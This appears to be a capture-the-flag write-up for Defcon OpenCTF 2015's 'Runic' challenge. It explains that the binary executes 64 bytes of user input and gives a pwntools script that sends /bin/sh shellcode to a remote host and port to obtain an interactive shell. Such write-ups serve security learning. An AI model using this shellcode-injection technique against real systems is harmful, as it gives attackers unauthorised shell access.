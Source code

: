 ```yaml
---
layout: post
title:  "Defcon OpenCTF - Runic"
date:   2015-08-13 18:03:59
categories: CTF Pwnable
---
```


Below is the main function for Runic:

![Runic main](/assets/images/runic.png)

The following events happen:

* read() of 0x40 bytes (64 bytes)
* call() to the buffer that was just read into

We can send a max of 64 bytes of shellcode, which is immediately executed.

## Final Exploit

The following script simply sends a `/bin/sh` shellcode, and a shell of ours.

```python
import sys
from pwn import * # pip install --upgrade git+https://github.com/binjitsu/binjitsu.git

context(arch='x86', os='linux')

HOST = '127.0.0.1'
PORT = 4444

## Example
# r = process('./runic')
r = remote(HOST, PORT)

# Debug process
'''
gdb.attach(r, """
bp 80484fa
c
""")
'''

shellcode = asm(shellcraft.sh())

r.sendline(shellcode)

r.interactive()
```
